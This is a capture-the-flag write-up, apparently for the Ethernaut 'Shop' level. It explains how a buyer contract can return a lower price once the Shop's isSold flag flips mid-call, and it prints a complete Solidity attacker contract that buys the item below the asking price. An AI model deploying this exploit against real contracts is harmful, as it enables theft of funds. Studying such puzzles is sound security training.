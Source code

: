 # Shop

---
Objective: 
- Сan you get the item from the shop for less than the price asked?
---

The vulnerability lies in that we can interact as the Buyer with setting our own prices after returning the price with a check on how `isSold()` right after it is sold.

So in the Shop contract we have this code snippet

```solidity 
// during this call, isSold is false
if (_buyer.price() >= price && !isSold) {
// the state will change for isSold
isSold = true;
// during this call, isSold is true
price = _buyer.price();
}
```

That is where we come in. Since the switch for `isSold` is in the midst of the loop we can edit the value in our Buyer contract before it calls the price. Therefore we can write this: 
```solidity
function hack() external {
    target.buy();
    require(target.price() == 99, "price != 99");
  }

  function price() external view returns (uint) {
    if (target.isSold()) {
      return 99;
    }
    return 100;
  }
```

That will mimic the `price()` function but editing the return value after the item is sold. This makes us buy it at a lower price when we have our `hack()` function:
```solidity
function hack() external {
    target.buy();
    require(target.price() == 99, "price != 99");
  }
```

So our total solution contract will be: 
```solidity
contract Solve {
  Shop private immutable target;

  constructor(address _target) {
    target = Shop(_target);
  }

  function hack() external {
    target.buy();
    require(target.price() == 99, "price != 99");
  }

  function price() external view returns (uint) {
    if (target.isSold()) {
      return 99;
    }
    return 100;
  }
}
```

Pretty straight forward
